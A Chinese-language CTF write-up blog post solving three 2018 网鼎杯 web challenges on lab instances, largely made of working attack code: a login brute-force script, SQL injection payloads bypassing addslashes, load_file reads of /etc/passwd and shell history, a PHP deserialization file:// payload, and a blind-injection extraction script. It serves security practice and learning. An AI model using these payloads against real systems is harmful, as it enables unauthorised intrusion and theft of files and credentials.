


+++
title = "网鼎杯2018"
slug = "wangding-cup-2018"
description = "刷"
date = "2024-08-21T09:45:06"
lastmod = "2024-08-21T09:45:06"
image = ""
license = ""
categories = ["复现"]
tags = ["mysql"]
+++

# [网鼎杯 2018]Comment

随便发帖发现进入后台，告诉了用户名和密码，只不过后三位需要爆破

由于前面是名字所以直接猜测是数字

```python
import requests
import time

# 定义URL
url = "http://97f3bfa3-d408-4ae9-b1ac-27b821dd8c55.node5.buuoj.cn:81/login.php"

# 创建一个Session对象
session = requests.Session()

def change(num):
    # 格式化数字，确保始终为三位数
    return f"{num:03d}"

# 开始遍历数字
for num in range(100, 1000):
    # 构造数据
    data = {"username": "zhangwei", "password": f"zhangwei{change(num)}"}
    
    try:
        # 发送POST请求
        response = session.post(url, data=data)
        
        # 打印结果
        print(f"{change(num)} => {len(response.text)}")
        
        # 等待0.2秒
        time.sleep(0.2)
    except requests.RequestException as e:
        # 处理请求异常
        print(f"Error occurred while sending request: {e}")
```

爆破出来是`666`

登录之后发现发帖会有个回显，可能是二次注入

```shell
githacker --url http://97f3bfa3-d408-4ae9-b1ac-27b821dd8c55.node5.buuoj.cn:81/.git/ --output-folder './test' 
```

拿到源码发现没啥用

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

发现不全，可以在当前目录下进行

```
git log --reflog

response:
┌──(kali㉿kali)-[~/Desktop/test/e413b273c2da773f8efdc593ed90fdce]
└─$ git log --reflog
commit e5b2a2443c2b6d395d06960123142bc91123148c (refs/stash)
Merge: bfbdf21 5556e3a
Author: root <root@localhost.localdomain>
Date:   Sat Aug 11 22:51:17 2018 +0800

    WIP on master: bfbdf21 add write_do.php

commit 5556e3ad3f21a0cf5938e26985a04ce3aa73faaf
Author: root <root@localhost.localdomain>
Date:   Sat Aug 11 22:51:17 2018 +0800

    index on master: bfbdf21 add write_do.php

commit bfbdf218902476c5c6164beedd8d2fcf593ea23b (HEAD -> master, origin/master, origin/HEAD)
Author: root <root@localhost.localdomain>
Date:   Sat Aug 11 22:47:29 2018 +0800

    add write_do.php
```

然后就挨着尝试这个`commit`(一个新操作，之前从来没接触到)

```
git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c
```

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

终于到手了,这里很容易看出来是个sql注入，但是有个函数不知道怎么绕过，测试一下

```
返回需要在转义字符之前添加反斜线的字符串。这些字符是：

单引号（'）
双引号（"）
反斜线（\）
NUL（NUL 字节）
```

由于分行这里使用`/*`进行注释那么再放入sql语句的话就会是下面这样

```sql
'||1=1/*

'\'||1=1/*'成功注入
```

那么注入原先的段子中就还需要加`,`

```
',content=(user()),/*
```

同时还需要闭合来注释整段内容

也就是`payload`是这样子




可以看到成功注入了，并且拥有`root`权限

```sql
',content=(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),/*

*/#
得到
board,comment,user

',content=(select(group_concat(column_name))from(information_schema.columns)where(table_name='user')),/*

*/#
得到
id,username,password,Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string
```

我感觉不对劲了，换个表也没用，那么这里我们需要知道的是

> 查数据库的数据不需要root权限，而使用load_file读取文件内容需要root权限

我们尝试读取文件

```
',content=(load_file("/etc/passwd")),/*

*/
得到
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false www:x:500:500:www:/home/www:/bin/bash
```

`www`在`/home/www`使用了`/bin/bash`

那么查看历史命令

```
',content=(load_file("/home/www/.bash_history")),/*

*/
得到这个
cd /tmp/ 
unzip html.zip 
rm -f html.zip 
cp -r html /var/www/ 
cd /var/www/html/ 
rm -f .DS_Store 
service apache2 start
```

也就是说我们去读取一下`.DS_Store`可能有关键信息

```
',content=(load_file("/tmp/html/.DS_Store")),/*

*/
得到不可见的东西
Bud1 strapIl bootstrapIlocblobF(
```

进行`hex`编码再看

```
',content=(hex(load_file("/tmp/html/.DS_Store"))),/*

*/
得到
00000001427564310000100000000800000010000000040A000000000000000000000000000000000000000000000800000008000000000000000000000000000000000000000002000000000000000B000000010000100000730074007200610070496C00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000B000000090062006F006F007400730074007200610070496C6F63626C6F62000000100000004600000028FFFFFFFFFFFF00000000000B0063006F006D006D0065006E0074002E007000680070496C6F63626C6F6200000010000000CC0000002800000001FFFF000000000003006300730073496C6F63626C6F62000000100000015200000028FFFFFFFFFFFF0000000000190066006C00610067005F0038003900340036006500310066006600310065006500330065003400300066002E007000680070496C6F63626C6F6200000010000001D800000028FFFFFFFFFFFF0000000000050066006F006E00740073496C6F63626C6F62000000100000004600000098FFFFFFFFFFFF0000000000090069006E006400650078002E007000680070496C6F63626C6F6200000010000000CC0000009800000002FFFF000000000002006A0073496C6F63626C6F62000000100000015200000098FFFFFFFFFFFF000000000009006C006F00670069006E002E007000680070496C6F63626C6F6200000010000001D800000098FFFFFFFFFFFF000000000009006D007900730071006C002E007000680070496C6F63626C6F62000000100000004600000108FFFFFFFFFFFF00000000000600760065006E0064006F0072496C6F63626C6F6200000010000000CC00000108FFFFFFFFFFFF00000000000C00770072006900740065005F0064006F002E007000680070496C6F63626C6F62000000100000015200000108FFFFFFFFFFFF0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001000000000000080B000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000002000000001000000400000000100000080000000010000010000000001000002000000000100000400000000000000000100001000000000010000200000000001000040000000000100008000000000010001000000000001000200000000000100040000000000010008000000000001001000000000000100200000000000010040000000000001008000000000000101000000000000010200000000000001040000000000000108000000000000011000000000000001200000000000000140000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000003000000000000100B000000450000040A000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000104445344420000000100000000000000000000000000000000000000000000000200000020000000600000000000000001000000800000000100000100000000010000020000000000000000020000080000001800000000000000000100002000000000010000400000000001000080000000000100010000000000010002000000000001000400000000000100080000000000010010000000000001002000000000000100400000000000010080000000000001010000000000000102000000000000010400000000000001080000000000000110000000000000012000000000000001400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

16进制转字符发现



`flag_8946e1ff1ee3e40f.php`

```
',content=(hex(load_file("./flag_8946e1ff1ee3e40f.php"))),/*

*/
没东西路径错了，后面觉得应该还是在临时文件的html里面

',content=(hex(load_file("/tmp/html/flag_8946e1ff1ee3e40f.php"))),/*

*/
得到
3C3F7068700A24666C6167203D2027666C61677B66396361316136622D396437382D313165382D393061332D6334623330316237623939627D273B0A3F3E0A
解开还是假的

',content=(hex(load_file("/var/www/html/flag_8946e1ff1ee3e40f.php"))),/*

*/
得到
3C3F7068700A0924666C61673D22666C61677B63316638333062312D666239312D346635392D396131642D3532663363613965303635377D223B0A3F3E0A
```

但是这里有个疑问，是一定要使用绝对路径嘛，查阅一下

1. **权限**:
   - 使用 `LOAD_FILE()` 函数需要服务器用户具有 `FILE` 特权。可以通过 `GRANT FILE ON *.* TO 'username'@'localhost';` 授予权限。
2. **路径**:
   - 文件路径必须是服务器文件系统上的绝对路径。
   - MySQL 服务器必须有权限读取该文件。
3. **安全**:
   - `LOAD_FILE()` 可能带来安全风险，因为它允许访问服务器文件系统。因此，在生产环境中应谨慎使用。
4. **性能**:
   - 如果文件很大，使用 `LOAD_FILE()` 可能会影响性能，因为它会一次性加载整个文件的内容。

确实是需要绝对路径的

# [网鼎杯 2018]Fakebook

先注册一个账号，发现进入之后查看源码能够找到注入点

```
http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,2,3,4--+
没想到居然不用闭合
我直接读文件没想到成功了
http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,(load_file("/var/www/html/flag.php")),3,4--+
```

当然还可以这样子继续查表了

```
http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,(select(group_concat(schema_name))from(information_schema.schemata)),3,4--+
fakebook,information_schema,mysql,performance_schema,test

http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='fakebook')),3,4--+
users

http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),3,4--+
no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,(select(group_concat(data))from(fakebook.users)),3,4--+
得到
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:12;s:4:"blog";s:7:"123.xyz";}
```

到这里卡着了，这个序列化字符到底有啥用，看来应该是有文件可以用

访问`/robots.txt`得到`/user.php.bak`

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

这个文件乍一看以为是要打ssrf其实只是绕过就可以读取文件了

```
http://fdd3faa3-d57e-4d7d-adb8-a45953fc645c.node5.buuoj.cn:81/view.php?no=-1/**/union/**/select/**/1,3,4,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--+
然后查看源码base64解码即可
但是这里我本来是把反序列化放在第二个位置的结果失败了
```

也就是说只有放在最后才能正常反序列化

# [网鼎杯2018]Unfinish

扫描一下，其实不用扫应该也能知道


登录注册之后感觉这个地方，奇怪，试试能不能注入

最后尝试了一下绕过的东西还挺多的诶，新姿势

```sql
select '0'+ascii(substr(database(),1,1));

+-----------------------------------+
| '0'+ascii(substr(database(),1,1)) |
+-----------------------------------+
|                               110 |
+-----------------------------------+
1 row in set (0.03 sec)

select '0'+ascii(substr(database() from 1 for 1));
结果一样,这里应该是把逗号过滤了，一直显示nonono
```

成功查询了的，这里我们把后面的闭合即可注入

```sql
0'+ascii(substr((database()) from 1 for 1))+'0;
```


成功了诶,那写个脚本吧

但是我测试的时候发现这个脚本将会非常麻烦，因为要注册账号而且每次都会登录所以准确来说应该是查出一波数据就需要刷一下靶机

```python
import requests
import re
sess=requests.Session()

url="http://fd775985-3549-4139-a138-48db188ff18b.node5.buuoj.cn:81/"
target=""
i=0
for j in range(45):
    i+=1
    # payload="0'+ascii(substr((database()) from {} for 1))+'0;".format(i)
    payload="0'+ascii(substr((select * from flag) from {} for 1))+'0;".format(i)
    
    register={'email':'12{}3@qq.com'.format(i),'username':payload,'password':123456}
    login={'email':'12{}3@qq.com'.format(i),'password':123456}

    r1=sess.post(url=url+'register.php',data=register)
    r2=sess.post(url=url+'login.php',data=login)
    r3=sess.post(url=url+'index.php')
    content=r3.text

    # 捕捉ascii码
    con = re.findall('<span class="user-name">(.*?)</span>', content, re.S | re.M)
    a = int(con[0].strip())
    target +=chr(a)
    print("\r"+target,end="")
```

所以直接盲猜表名为`flag`
